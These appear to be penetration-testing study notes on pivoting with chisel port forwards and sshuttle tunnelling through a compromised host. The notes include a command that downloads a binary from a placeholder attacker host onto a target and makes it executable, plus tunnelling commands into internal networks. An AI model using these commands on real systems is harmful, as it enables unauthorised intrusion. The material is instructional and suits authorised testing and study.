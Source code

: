 # Local Port Forward with chisel
1. curl http://ATTACKER/chisel -o chisel && chmod +x chisel
2. ./chisel server -p LISTEN_PORT
3. ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

Line 1. (on target)
Line 2. (as attacker)
Line 3. (on target)  As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target. For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to  access  172.16.0.10:22 (our intended target on port 22), we could use: ./chisel client 172.16.0.5:8000 2222:172.16.0.10:22

# remote Port Forward with chisel 
1. curl http://ATTACKER/chisel -o chisel && chmod +x chisel
2. ./chisel server -p LISTEN_PORT --reverse
3. ./chisel client ATTACKING_IP:LISTEN_PORT R:OUR_LOCAL_PORT:TARGET_IP:TARGET_PORT 

Line 1. (on target)
Line 2. (as attacker)
Line 3. (on target)  You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the  target port, separated by colons. Note the distinction between the LISTEN_PORT and the LOCAL_PORT. Here the LISTEN_PORT is the port that we started the chisel server on, and the LOCAL_PORT is the port we wish to open on our own attacking machine to link with the desired target port.  To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows: ./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22.  Connecting back to our attacking machine, functioning as a chisel server started with: ./chisel server -p 1337 --reverse. This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222 on our attacker machine.     


## sshuttle

# This tool is quite different from the others we have covered so far. It doesn't perform a port forward, and the proxy it creates is nothing like the ones we have already seen. Instead it uses an SSH connection to create a tunnelled proxy that acts like a new interface. In short, it simulates a VPN, allowing us to route our traffic through the proxy without the use of proxychains (or an equivalent). We can just directly connect to devices in the target network as we would normally connect to networked devices. As it creates a tunnel through SSH (the secure shell), anything we send through the tunnel is also encrypted, which is a nice bonus. We use sshuttle entirely on our attacking machine, in much the same way we would SSH into a remote server. Whilst this sounds like an incredible upgrade, it is not without its drawbacks. For a start, sshuttle only works on Linux targets. It also requires access to the compromised server via SSH, and Python also needs to be installed on the server. That said, with SSH access, it could theoretically be possible to upload a static copy of Python and work with that. These restrictions do somewhat limit the uses for sshuttle; however, when it is an option, it tends to be a superb bet!
